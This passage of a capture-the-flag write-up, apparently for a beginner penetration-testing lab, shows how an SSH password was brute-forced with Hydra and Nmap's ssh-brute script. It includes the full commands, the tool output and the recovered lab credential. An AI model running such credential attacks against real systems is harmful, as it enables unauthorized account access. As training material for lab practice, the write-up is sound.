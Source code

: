 - We find two user names - `jan` and `kay`.
- Now we'll try to bruteforce the password of `jan`.
- Because, in the `/development` directory, we had a text file in which K (refers to kay) mentioned that the password of J (refers to jan) was easily crackable.

2. **HYDRA:**
    - Using **Hydra** to bruteforce the username and password
    - **Example:** `hydra -L users.txt -P passwords.txt ssh://$ip -t 4`
    - Options used and their explanations:
        - L flag - specifies a list of login names as file
        - l flag - login name
        - P flag - specifies a list of passwords
        - ssh://$ip - our target and protocol
        - t flag - number of parallel tasks to run

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.21.87 -t 4 | tee hydra.out
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-09 22:14:13
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.21.87:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[STATUS] 28.00 tries/min, 84 tries in 00:03h, 14344315 to do in 8538:17h, 4 active
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 14344195 to do in 8203:23h, 4 active
[STATUS] 28.07 tries/min, 421 tries in 00:15h, 14343978 to do in 8517:49h, 4 active
[22][ssh] host: 10.10.21.87   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-09 22:43:05

```
3. Nmap NSE **SSH-brute** was faster than hydra.

```bash
nmap 10.10.21.87 -p 22 --script ssh-brute --script-args userdb=user.txt,passdb=/usr/share/wordlists/rockyou.txt | tee ssh-brute.out

Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 22:22 IST
NSE: [ssh-brute] Trying username/password pair: jan:jan
..
Nmap scan report for 10.10.21.87
Host is up (0.17s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     jan:armando - Valid credentials
|_  Statistics: Performed 781 guesses in 636 seconds, average tps: 1.7

Nmap done: 1 IP address (1 host up) scanned in 665.56 seconds

```
